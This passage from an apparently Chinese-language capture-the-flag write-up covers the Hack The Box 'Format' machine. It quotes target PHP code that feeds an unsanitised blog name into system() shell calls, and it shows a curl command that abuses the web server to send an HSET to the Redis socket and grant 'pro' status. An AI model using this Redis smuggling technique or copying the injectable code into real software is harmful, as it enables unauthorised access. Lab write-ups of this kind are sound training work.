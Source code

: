 在第25行和第35行之间我们可以发现这部分代码非常有趣。我们可以看到，如果_isPro_条件为_True_，那么我们可以上传某种类型的文件，尽管它们可能只是图像。无论如何，我们必须成为_专业人士_才能将文件上传到网络。

```
function provisionProUser() {
    // 检查用户是否为专业用户
    if (isPro() === "true") {
        // 获取并清理博客名称
        $blogName = trim(urldecode(getBlogName()));

        // 为博客目录和其编辑子目录添加写权限
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");

        // 将bulletproof.php文件复制到博客的编辑子目录中
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");

        // 创建一个名为"uploads"的子目录，并设置其权限
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");

        // 移除博客目录和编辑子目录的写权限
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}

```

服务器通过 REDIS 工作，为了将我们的帐户转换为_Pro_，我们必须指向套接字并采用 HSET 格式。HSET 基本上你所做的就是更改指定字段的值。

如果您在注册时输入了任何其他用户名，请确保在 cmd 中更改该用户名，我使用 hyper，作为用户名，所以我使用了 hyper

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:hyper%20pro%20true%20a/b"
```

一旦我们成为专业用户，我们就通过Burpsuite发送请求并 ping攻击者的机器，可以看到已经成为Pro

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>
